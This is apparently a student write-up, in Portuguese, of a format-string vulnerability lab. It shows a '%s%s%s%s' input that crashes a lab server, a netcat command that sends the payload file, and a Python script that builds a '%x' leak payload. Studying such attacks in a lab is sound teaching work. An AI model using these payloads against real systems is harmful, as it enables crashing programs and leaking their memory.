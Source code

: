 # Trabalho realizado na Semana #6

Para todas as tarefas utilizámos o método de guardar o *input* num ficheiro e
fornecê-lo ao servidor usando:
```
$ cat <file> | nc 10.9.0.5 9090
```
Sendo `<file>` o nome do ficheiro usado, no nosso caso: `badfile`.


## Tarefa 1

Como o objetivo nesta tarefa é *crashar* o programa, pensamos em aceder a endereços
de memória inválidos usando a *format-string* que vamos fornecer como *input*.  

Para tal decidimos usar:
```
%s%s%s%s
```
de forma a usar números que estão na *stack* como endereços de memória e tentar ler
*strings* nesses endereços. A quantidade de `%s` foi arbitrária e caso não causasse *crash*
à primeira tentativa, bastaria adicionar mais `%s` até um dos valores ser um endereço
inválido.  

*Program crash*:  
![/imgs6/crash.png](/imgs6/crash.png)

(Nota: não foi *printed* `(ˆ_ˆ)(ˆ_ˆ) Returned properly (ˆ_ˆ)(ˆ_ˆ)`, o que indica que
o programa efetivamente *crashou*)


## Tarefa 2.A

Para obter o número de `%x` *format specifiers* para o programa dar *print* dos primeiros
4 *bytes* de input bastou fazer vários testes usando o seguinte *script* de *python*
para ajudar a gerar o *badfile*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

NUM = 64
fmt = ("AAAA" + "-%x"*NUM).encode('latin-1')

content[0:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```
